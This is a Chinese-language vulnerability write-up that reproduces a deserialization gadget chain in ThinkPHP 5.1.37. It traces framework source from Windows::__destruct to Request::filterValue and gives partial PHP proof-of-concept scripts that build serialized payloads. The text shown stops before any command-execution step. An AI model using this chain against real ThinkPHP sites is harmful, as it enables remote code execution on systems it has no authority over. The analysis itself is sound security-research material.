一个老版本的tp框架的反序列化漏洞

# 0x01环境搭建

- PHP7.3+Xdebug+thinkphp5.1.37+PHPSTORM

直接用composer搭建

```
composer create-project --prefer-dist topthink/think=5.1.37 thinkphp5.1.37
```

运行环境

```
php think run
```



出来了

因为是二次触发不是原生触发的，所以需要写个反序列化的入口

在app\index\controller目录下新建一个控制器Test.php

```php
<?php
namespace app\index\controller;

class Test{
    public function unserialize($poc=""){
        echo "Welcome to unserialization:<br>";
        echo "You's input :".$poc."<br>";
        echo unserialize(base64_decode($poc));
    }
}
```

然后在route.php中添加路由

```php
Route::get('/test', 'Test/unserialize');
```

随后访问test路由



搭建完成

# 0x02漏洞复现

全局搜索一下常规的反序列化入口`__destruct()`方法



先看看第二个吧Process.php

```php
    public function __destruct()
    {
        $this->stop();
    }
```

这里调用了一个stop函数，跟进看看

```php
    public function stop()
    {
        if ($this->isRunning()) {
            if ('\\' === DIRECTORY_SEPARATOR && !$this->isSigchildEnabled()) {
                exec(sprintf('taskkill /F /T /PID %d 2>&1', $this->getPid()), $output, $exitCode);
                if ($exitCode > 0) {
                    throw new \RuntimeException('Unable to kill the process');
                }
            } else {
                $pids = preg_split('/\s+/', `ps -o pid --no-heading --ppid {$this->getPid()}`);
                foreach ($pids as $pid) {
                    if (is_numeric($pid)) {
                        posix_kill($pid, 9);
                    }
                }
            }
        }

        $this->updateStatus(false);
        if ($this->processInformation['running']) {
            $this->close();
        }

        return $this->exitcode;
    }
```

这里是一个终止进程的代码，如果有一个正在运行的进程，就根据Windows和unix系统的不同处理方式去获取子进程的PID并强制终止进程，最后返回退出代码

我们跟进isRunning函数看看

```php
    public function isRunning()
    {
        if (self::STATUS_STARTED !== $this->status) {
            return false;
        }

        $this->updateStatus(false);

        return $this->processInformation['running'];
    }
```

这里的话就检查进程状态，如果进程未开启则返回false，也就不会执行if语句

```php
    protected function updateStatus($blocking)
{
        if (self::STATUS_STARTED !== $this->status) {
            return;
        }

        $this->processInformation = proc_get_status($this->process);
        $this->captureExitCode();

        $this->readPipes($blocking, '\\' === DIRECTORY_SEPARATOR ? !$this->processInformation['running'] : true);

        if (!$this->processInformation['running']) {
            $this->close();
        }
    }
```

这个函数用于更新进程的状态，并赋值给processInformation表示进程状态，这里看完感觉没什么可利用的点，我们看看其他的类

看看think\process\pipes的Windows.php

```php
    public function __destruct()
    {
        $this->close();
        $this->removeFiles();
    }
```

先看看close函数

```php
public function close()
    {
        parent::close();
        foreach ($this->fileHandles as $handle) {
            fclose($handle);
        }
        $this->fileHandles = [];
    }
```

这里的话会调用父类的close方法，跟进看看

```php
    public function close()
    {
        foreach ($this->pipes as $pipe) {
            fclose($pipe);
        }
        $this->pipes = [];
    }
```

这里的话会关闭当前对象管理的管道资源，令管道资源数组为空

回到子类的close，新增了一个清理文件句柄的操作，这里貌似没有什么可用的地方，我们看看另一个函数removeFiles()

```php
    private function removeFiles()
    {
        foreach ($this->files as $filename) {
            if (file_exists($filename)) {
                @unlink($filename);
            }
        }
        $this->files = [];
    }
```

这里检测文件是否存在，存在则执行unlink函数删除文件，一开始看到这个函数下意识想到phar反序列化的打法，但是这里只是一个单纯的反序列化，并且没有文件上传或者写文件的入口，估计这个能被利用来出题

那这里还能干嘛呢？在if语句里面利用`file_exists($filename)`的时候会把filename当成参数字符串去处理，那我们找找`__toString()`方法？

全局搜索`__toString()`方法，找到一个`think\model\concern\Conversion.php`的`__toString()`

```php
    public function __toString()
    {
        return $this->toJson();
    }
```

```php
    public function toJson($options = JSON_UNESCAPED_UNICODE)
    {
        return json_encode($this->toArray(), $options);
    }
```

跟进之后发现这里就是一个单纯的json字符串的解析返回，这里采用的是JSON_UNESCAPED_UNICODE，以字面编码多字节 Unicode 字符。跟进toArray函数

```php
    public function toArray()
    {
        $item       = [];
        $hasVisible = false;

        foreach ($this->visible as $key => $val) {
            if (is_string($val)) {
                if (strpos($val, '.')) {
                    list($relation, $name)      = explode('.', $val);
                    $this->visible[$relation][] = $name;
                } else {
                    $this->visible[$val] = true;
                    $hasVisible          = true;
                }
                unset($this->visible[$key]);
            }
        }

        foreach ($this->hidden as $key => $val) {
            if (is_string($val)) {
                if (strpos($val, '.')) {
                    list($relation, $name)     = explode('.', $val);
                    $this->hidden[$relation][] = $name;
                } else {
                    $this->hidden[$val] = true;
                }
                unset($this->hidden[$key]);
            }
        }

        // 合并关联数据
        $data = array_merge($this->data, $this->relation);

        foreach ($data as $key => $val) {
            if ($val instanceof Model || $val instanceof ModelCollection) {
                // 关联模型对象
                if (isset($this->visible[$key]) && is_array($this->visible[$key])) {
                    $val->visible($this->visible[$key]);
                } elseif (isset($this->hidden[$key]) && is_array($this->hidden[$key])) {
                    $val->hidden($this->hidden[$key]);
                }
                // 关联模型对象
                if (!isset($this->hidden[$key]) || true !== $this->hidden[$key]) {
                    $item[$key] = $val->toArray();
                }
            } elseif (isset($this->visible[$key])) {
                $item[$key] = $this->getAttr($key);
            } elseif (!isset($this->hidden[$key]) && !$hasVisible) {
                $item[$key] = $this->getAttr($key);
            }
        }

        // 追加属性（必须定义获取器）
        if (!empty($this->append)) {
            foreach ($this->append as $key => $name) {
                if (is_array($name)) {
                    // 追加关联对象属性
                    $relation = $this->getRelation($key);

                    if (!$relation) {
                        $relation = $this->getAttr($key);
                        if ($relation) {
                            $relation->visible($name);
                        }
                    }

                    $item[$key] = $relation ? $relation->append($name)->toArray() : [];
                } elseif (strpos($name, '.')) {
                    list($key, $attr) = explode('.', $name);
                    // 追加关联对象属性
                    $relation = $this->getRelation($key);

                    if (!$relation) {
                        $relation = $this->getAttr($key);
                        if ($relation) {
                            $relation->visible([$attr]);
                        }
                    }

                    $item[$key] = $relation ? $relation->append([$attr])->toArray() : [];
                } else {
                    $item[$name] = $this->getAttr($name, $item);
                }
            }
        }

        return $item;
    }
```

看一下具体逻辑

对于visible数组来说，该数组是用于存储显示的属性的字符串

```php
foreach ($this->visible as $key => $val) {
            if (is_string($val)) {
                if (strpos($val, '.')) {
                    list($relation, $name)      = explode('.', $val);
                    $this->visible[$relation][] = $name;
                } else {
                    $this->visible[$val] = true;
                    $hasVisible          = true;
                }
                unset($this->visible[$key]);
            }
        }
```

这里的话处理值为字符串的字段

- 处理关联字段（含`.`的字符串）：例如`user.name`处理后是`['user' => ['name']]`
- 处理简单字段：例如`id`处理后是`['id' => true]`

处理好后清理原有的值

对于hidden数组来说，该数组是用于存储需要隐藏的属性字符串的

```php
        foreach ($this->hidden as $key => $val) {
            if (is_string($val)) {
                if (strpos($val, '.')) {
                    list($relation, $name)     = explode('.', $val);
                    $this->hidden[$relation][] = $name;
                } else {
                    $this->hidden[$val] = true;
                }
                unset($this->hidden[$key]);
            }
        }
```

处理逻辑是一样的

```php
$data = array_merge($this->data, $this->relation);

        foreach ($data as $key => $val) {
            if ($val instanceof Model || $val instanceof ModelCollection) {
                // 关联模型对象
                if (isset($this->visible[$key]) && is_array($this->visible[$key])) {
                    $val->visible($this->visible[$key]);
                } elseif (isset($this->hidden[$key]) && is_array($this->hidden[$key])) {
                    $val->hidden($this->hidden[$key]);
                }
                // 关联模型对象
                if (!isset($this->hidden[$key]) || true !== $this->hidden[$key]) {
                    $item[$key] = $val->toArray();
                }
            } elseif (isset($this->visible[$key])) {
                $item[$key] = $this->getAttr($key);
            } elseif (!isset($this->hidden[$key]) && !$hasVisible) {
                $item[$key] = $this->getAttr($key);
            }
        }
```

这里的话就是利用前面的规则去处理关联模型对象

其实上面的都是一些基础的操作，我们真正利用的是最后的追加属性的操作



我这里发现visible方法并没有声明，那就意味着这里可能会触发`__call()`方法，那当$relation可控的时候也就意味着key和name可控

因为Conversion是trait关键字声明的无法被实例化，那我们找找继承了该类的子类



可以看到Model类在它的内部复用了被`trait`修饰的`Conversion`对象

然后恰好在该类中找到一个`__call()`方法



但是这个方法中的调用函数的方法限制的很死，一会找找别的`__call()`方法

但是Model类是抽象类也不能被实例化，找找他的子类

全局搜索extends Model，表示继承Model类的子类，只找到一个Pivot类，所以只能是这个类了

因为Pivot类继承了Model抽象类，然而Model抽象类复用了被`trait`修饰的`Conversion`对象，所以可以通过Pivot类调用被`trait`修饰的`Conversion`对象的`__toSrting()方法`

不过在进入该if语句的时候还会执行第188行代码，也就是getRelation函数，我们跟进看一下



为了更好的理解，我们构造一个test传进去试一下

```php
<?php
namespace think\process\pipes{
    use think\model\Pivot;
    class Windows{
        private $files = [];
        public function __construct(){
            $this -> files = [new Pivot()];
        }
    }
}
namespace think{
    abstract class Model{
        protected $append = [];
        public function __construct(){
            $this -> append = ['test'=>['1','2']];
        }
    }
}
namespace think\model{
    use think\Model;
    class Pivot extends Model{
    }
}
namespace{
    use think\process\pipes\Windows;
    echo base64_encode(serialize(new Windows()));
}
```



此时key为我们构造的test，步入该函数，但是最后会返回空值，因为原先relation的值是空的，所以会直接跳过if语句返回空，返回后进入getAttr函数



随后进入getData函数



可以看到data此时是可控的，所以最后可以得出$relation变量可控，所以就可以触发__call方法，我们传个data试一下



成功进入，并返回data中$name键对应的值



所以如果我们设置值为一个对象的话，此时就会返回一个对象实例，从而触发`__call()`方法，但是这里的话name来自于append的值，所以我们可以设置值为需要传入`__call()`方法的参数

然后我们来找找`__call()`方法

找到一个think\Request类



这里有个call_user_func_array函数，前面的话检查hook数组中是否有key为method参数的值，并且会在args中插入当前对象实例，这导致了$args不可控

然后我发现在Request类中的filterValue方法



这里有一个call_use_func方法，但是怎么触发这个方法呢？



在该类的input方法中用函数调用，但是该方法的$data参数不可控，所以这时候需要查找哪里调用input方法了，发现param方法调用了input



这里$this->param可控，而name不可控，又需要查找哪里调用param方法，发现isAjax方法调用了param

```php
public function isAjax($ajax = false)
{
    $value  = $this->server('HTTP_X_REQUESTED_WITH');
    $result = 'xmlhttprequest' == strtolower($value) ? true : false;

    if (true === $ajax) {
        return $result;
    }

    $result           = $this->param($this->config['var_ajax']) ? true : $result;
    $this->mergeParam = false;
    return $result;
}
```

$this->config可控，就代表param方法中的name参数可控，就代表input方法中data，name参数都可控，找到这条调用链后返回input函数



在filterValue方法$filters参数要可控，所以我们跟进getFilter函数



这下可以确定$filters参数是可控的，所以我们可以构造链子

```
think\process\pipes\Windows::__destruct()->Pivot::__toString()->Request::isAjax()->Request::input()->Request::filterValue()
```

然后一段段调试和设值

先是让链子跳到Request类的`__call()`方法

```php
<?php
namespace think\process\pipes{
    use think\model\Pivot;

    class Windows{
        private $files = [];
        public function __construct() {
            $this -> files = [new Pivot()];
        }
    }
}
namespace think\model{
    use think\Model;
    class Pivot extends Model{
    }
}
namespace think{
    abstract class Model{
        private $data = [];
        protected $append = [];
        public function __construct(){
            $this -> append = ["test" => ["test"]];
            $this -> data = ["test" => new Request()];
        }
    }
    class Request{}
}
namespace {
    use think\process\pipes\Windows;
    echo base64_encode(serialize(new Windows()));
}
```



然后我们设置hook的值可以调用isAjax

```php
<?php
namespace think\process\pipes{
    use think\model\Pivot;

    class Windows{
        private $files = [];
        public function __construct() {
            $this -> files = [new Pivot()];
        }
    }
}
namespace think\model{
    use think\Model;
    class Pivot extends Model{
    }
}
namespace think{
    abstract class Model{
        private $data = [];
        protected $append = [];
        public function __construct(){
            $this -> append = ["test" => ["test"]];
            $this -> data = ["test" => new Request()];
        }
    }
    class Request{
        protected $hook = [];
        public function __construct(){
            $this -> hook = ["visible" => [$this,"isAjax"]];
        }
    }
}
namespace {
    use think\process\pipes\Windows;
    echo base64_encode(serialize(new Windows()));
}
```

